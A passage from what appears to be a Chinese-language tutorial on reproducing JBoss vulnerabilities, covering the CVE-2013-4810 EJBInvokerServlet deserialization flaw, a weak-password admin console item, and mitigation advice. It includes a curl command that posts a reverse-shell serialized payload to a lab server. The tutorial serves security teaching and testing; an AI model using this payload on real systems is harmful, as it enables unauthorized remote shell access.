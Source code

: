 ![](https://gitee.com/fuli009/images/raw/master/public/20210830201010.png)image-20210823094553928

成功反弹shell

#### 安全防护

升级到最新版本。

### 4.JBoss EJBInvokerServlet 反序列化漏洞（CVE-2013-4810）

#### 漏洞原理

此漏洞和`CVE-2015-7501`漏洞原理相同，两者的区别就在于两个漏洞选择的进行其中`JMXInvokerServlet`和`EJBInvokerServlet`利用的是`org.jboss.invocation.MarshalledValue`进行的反序列化操作，而`web-
console/Invoker`利用的是`org.jboss.console.remote.RemoteMBeanInvocation`进行反序列化并上传构造的文件。

#### 影响版本

    
    
     jboss 6.x 版本  
    

#### 漏洞验证

    
    
    访问/invoker/EJBInvokerServlet，如果可以访问的到，说明存在漏洞  
    

![](https://gitee.com/fuli009/images/raw/master/public/20210830201011.png)image-20210823094955346

#### 漏洞复现

还是利用上面生成的.ser文件，通过POST 二进制数据上去，反向连接shell

    
    
    curl http://192.168.10.154:8080/invoker/EJBInvokerServlet --data-binary @ReverseShellCommonsCollectionsHashMap.ser  
    

![](https://gitee.com/fuli009/images/raw/master/public/20210830201012.png)image-20210823095326056

### 5.Administration Console 弱口令

#### 漏洞原理

Administration Console管理页面存在弱口令，登录后台可以上传war包

#### 影响版本

#### 漏洞验证

![](https://gitee.com/fuli009/images/raw/master/public/20210830201013.png)![](https://gitee.com/fuli009/images/raw/master/public/20210830201014.png)image-20210823100247859

#### 漏洞复现
